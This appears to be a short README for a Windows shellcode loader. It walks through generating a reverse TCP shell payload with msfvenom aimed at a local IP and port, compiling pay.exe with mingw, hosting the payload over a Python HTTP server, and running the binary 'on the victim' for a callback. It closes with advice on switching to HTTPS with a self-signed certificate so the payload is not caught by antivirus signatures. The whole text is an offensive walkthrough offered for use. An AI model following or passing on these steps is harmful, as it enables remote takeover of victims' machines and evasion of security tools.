 >To make this work,create a msfvenom payload
>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw >beacon.bin
>Compile .cpp using the command:- x86_64-w64-mingw32-g++ --static -o pay.exe simple.cpp -fpermissive -lws2_32
>Host the payload file using a http server :- python3 -m http.server

>Run the binary on the victim to get a call back.
>The payload will get detected after a while,make sure to use https encrypted payload.
>create your own ssl self signed certificate to use it for the https reverse payload ,since the one used by metasploit is signatured.
